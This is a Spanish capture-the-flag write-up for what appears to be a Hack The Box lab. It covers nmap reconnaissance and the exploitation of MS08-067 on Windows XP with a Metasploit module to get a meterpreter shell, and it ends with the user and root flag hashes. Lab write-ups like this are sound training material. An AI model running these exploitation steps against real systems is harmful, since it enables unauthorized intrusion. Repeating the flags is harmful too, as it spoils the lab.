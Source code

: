 
![[ 20250708095033.png]]

# Nmap

relizamos un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.241.19 -oN scanner
```
![[ 20250708095741.png]]

Una vez identificados los puertos abiertos procedemos a lanzar scripts básicos para ver el servicio y la versión que corren por detras

```bash
nmap -p135,139.445 -sCV 10.129.241.19 -oN targeted
```

![[ 20250708095923.png]]

# Autorecon

Vamos a utilizar la herramienta autorecon a ver si conseguimos sacar algún dato extra que nos ayude a saber por donde debemos atacar

![[ 20250708100741.png]]

aqui podemos ver que la maquina utiliza un windows XP del 2000-2008 PocketPC/CE tratemos de buscar vulnerabilidades es este tipo de sistemas

comprobamos que los equipos con el S.O de nuestra victima son vulnerables a CVE-2008-4250 fue una vulnerabilidad muy tipica en la epoca por lo que vamos a comprobarlo

usando nmap podemos filtrar vulnerabilidades primero hay que ver si la vulnerabiliad se encuentra en el listado de nmap 

```bash
ls /usr/share/nmap/scripts/ | grep smb
```
![[ 20250708101928.png]]

podemos comprobar que si que esta la vulnerabilidad asi que usamos nmap para confirmarlo

```bash
nmap -p445 10.129.227.181 --script smb-vuln-ms08-067 -sV
```

![[ 20250708102045.png]]

vemos que nmap termina de confirmar nuestras sospechas

# metasploit

abrimos metasploit

```bash
msfdb run
```

buscamos exploits con la vulnerabilidad y vemos que si que existe uno 

```bash
search ms08-067
```

![[ 20250708102247.png]]

```bash
use 0
```

cambiamos el rhosts 

```bash
set rhosts <IP Victima>
```

```bash
exploit
```

![[ 20250708102611.png]]

vemos que el exploit es un exito y nos devuelve una shell como meterpreter

vemos que en el directorio `C:\Documents and Settings\Administrator\Desktop` se encuentra la flag de root

![[ 20250708102844.png]]

y la flag de user esta en el directorio `C:\Documents and Settings\john\Desktop `

![[ 20250708102935.png]]

# flags

user : e69af0e4f443de7e36876fda4ec7644f

root : 993442d258b0e0ec917cae9e695d5713